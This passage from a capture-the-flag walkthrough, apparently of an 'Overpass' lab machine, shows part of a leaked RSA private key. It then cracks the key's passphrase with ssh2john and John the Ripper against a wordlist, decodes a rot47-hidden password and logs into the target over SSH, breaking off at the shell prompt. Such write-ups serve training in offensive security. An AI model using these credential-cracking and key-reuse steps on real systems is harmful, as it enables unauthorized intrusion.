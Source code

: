 ```bash
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----</pre>
        </div>
    </div>
</body>
</html>

```

## CRACKING THE CREDS :

>>To get the passphrase we need to 'john' first use ssh2john output it into file then john to crack it down.
```bash
root@ip-10-10-76-219:~# /opt/john/ssh2john.py id_rsa > forjohn.txt
root@ip-10-10-76-219:~# ls
Desktop      id_rsa         Pictures  Scripts
Downloads    Instructions   Postman   thinclient_drives
forjohn.txt  overpassLinux  Rooms     Tools

root@ip-10-10-76-219:/opt/john# ./john --wordlist=/usr/share/wordlists/rockyou.txt /root/forjohn.txt
Note: This format may emit false positives, so it will keep trying even after finding a
possible candidate.
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (id_rsa)
1g 0:00:00:10 DONE (2022-01-06 13:50) 0.09165g/s 1314Kp/s 1314Kc/s 1314KC/s *7¡Vamos!
Session completed. 
```

>>Using ssh to login to the machine.
>>cat the user.txt for the flag and todo.txt to get the info.
>>If we do 'ls -la' there is hidden file '.overpass' which has rot47 encoded password for the user james.
>>Decode the hash to get the james password. 

## SSH TO TARGET :

```bash
root@ip-10-10-76-219:~# ssh -i id_rsa james@10.10.222.176 
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
  System information as of Thu Jan  6 13:51:47 UTC 2022
  System load:  0.0                Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 12%                IP address for eth0: 10.10.222.176
  Swap usage:   0%
47 packages can be updated.
0 updates are security updates.
Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1

james@overpass-prod:~$ ls
```